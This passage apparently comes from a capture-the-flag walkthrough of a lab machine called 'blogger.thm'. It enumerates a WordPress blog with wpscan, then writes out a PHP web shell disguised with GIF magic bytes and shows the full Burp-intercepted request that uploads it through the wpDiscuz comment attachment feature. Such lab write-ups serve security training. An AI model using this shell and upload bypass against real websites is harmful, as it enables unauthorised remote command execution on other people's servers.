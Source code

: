 
Now, navigate to `http://blogger.thm/assets/fonts/blog/` and the blog is displayed correctly.

It appears to be a `Wordpress` blog, so we could use the `wpscan` tool to enumerate for all plugins, all themes, config backups and Db exports, but no interesting results are shown. 
- Command: `wpscan --url http://blogger.thm/assets/fonts/blog/ -e ap,at,cb,dbe`

If we navigate to whichever post, we identify `Comment` functionality that can include the `attachment` of an image.

Create `cmd.php` with contents:


```php
GIF87a
<?php
system($_REQUEST['cmd']);
?>
```

Above the php code we have put the `magic bytes` of a GIF file according to: https://en.wikipedia.org/wiki/List_of_file_signatures, in order for our file to be treated as a GIF file.

Then, we attach the `cmd.php`, open Burp Suite, turn Intercept to On, and click on `POST COMMENT`. Finally, click `Forward` on Burp Suite.

The request should look like this:


```shell
POST /assets/fonts/blog/wp-admin/admin-ajax.php HTTP/1.1
Host: blogger.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------5658711851211151532350158244
Content-Length: 1421
Origin: http://blogger.thm
Connection: close
Referer: http://blogger.thm/assets/fonts/blog/?p=29
Cookie: wpdiscuz_hide_bubble_hint=1

-----------------------------5658711851211151532350158244
Content-Disposition: form-data; name="action"

wpdAddComment
-----------------------------5658711851211151532350158244
Content-Disposition: form-data; name="wc_comment"

test
-----------------------------5658711851211151532350158244
Content-Disposition: form-data; name="wmu_files[]"

C:\fakepath\cmd.php
-----------------------------5658711851211151532350158244
Content-Disposition: form-data; name="wmu_attachments"

{"images":[34]}
-----------------------------5658711851211151532350158244
Content-Disposition: form-data; name="wc_name"

test
-----------------------------5658711851211151532350158244
Content-Disposition: form-data; name="wc_email"

test@test.com
-----------------------------5658711851211151532350158244
```